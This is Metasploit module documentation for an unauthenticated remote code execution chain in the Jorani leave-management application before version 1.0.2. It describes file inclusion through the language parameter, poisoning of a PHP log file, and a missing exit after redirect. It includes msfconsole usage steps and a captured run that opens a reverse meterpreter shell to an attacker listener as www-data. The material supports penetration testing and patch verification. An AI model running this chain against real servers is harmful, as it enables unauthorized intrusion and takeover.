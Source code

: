 ## Vulnerable Application

Jorani prior to 1.0.2 allows unauthenticated users to execute arbitrary code.

This is due to a lack of sanitization on the language parameter, which can lead to the file inclusion of arbitrary ".php" files.

Moreover, the log file for jorani ends with ".php" in Jorani < 1.0.2.

Log poisoning is possible, an attacker can abuse this to store malicious data in the log file.

Data like '<?php ...;?>' can been added to the log file, then if this file is included by php, it will be executed.

Finally, the controller responsible for recovering a page doesn't properly redirect requests made by Ajax.

So the scripts will not stop after the redirection because an exit statement is missing.

Because of this, the attacker can make the script continue and reach the LFI vulnerability without being authenticated.

So by chaining these 3 vulnerabilities an unauthenticated user can execute arbitrary code on the application.

This module has been tested successfully on Jorani 1.0.0, Ubuntu 20.04 (x86_64) with kernel version 5.15.0-75.

### Installation Steps
For a step by step installation tutorial on Ubuntu please refer to [How to install Jorani](https://jorani.org/how-to-install-jorani.html)

## Verification Steps
1. Start `msfconsole`
2. `use exploit/multi/php/jorani_path_trav`
3. set `RHOSTS` and `RPORT`
4. Confirm the target is vulnerable: `check`. The result expected is `The target appears to be vulnerable.`
5. Default payload for the exploit will be `php/meterpreter/reverse_tcp`
6. set `LHOST`
7. `exploit`
8. Confirm you have now a cmd session as www-data

## Options

### TARGETURI (optional)
The path to the jorani website. By default it is empty.

## Scenarios

```
msf6 exploit(multi/php/jorani_path_trav) > options

Module options (exploit/multi/php/jorani_path_trav):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.199.158   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  jorani           yes       The base path of Jorani
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Jorani < 1.0.2



View the full module info with the info, or info -d command.

msf6 exploit(multi/php/jorani_path_trav) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Jorani version
[+] Jorani seems to be running on the target!
[+] Found version: 1.0.0
[+] The target appears to be vulnerable.
[*] Trying to exploit LFI
[*] Recovering CSRF token
[+] CSRF found: be7e8205ad5f1fae2834478acdd0b546
[*] Poisoning log with payload..
[*] Sending 1st payload
[*] Including poisoned log file log-2023-08-18.php.
[+] Triggering payload
[*] Sending stage (39927 bytes) to 172.16.199.158
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.158:39624) at 2023-08-18 15:01:55 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 5.15.0-79-generic #86~20.04.2-Ubuntu SMP Mon Jul 17 23:27:17 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > exit
```

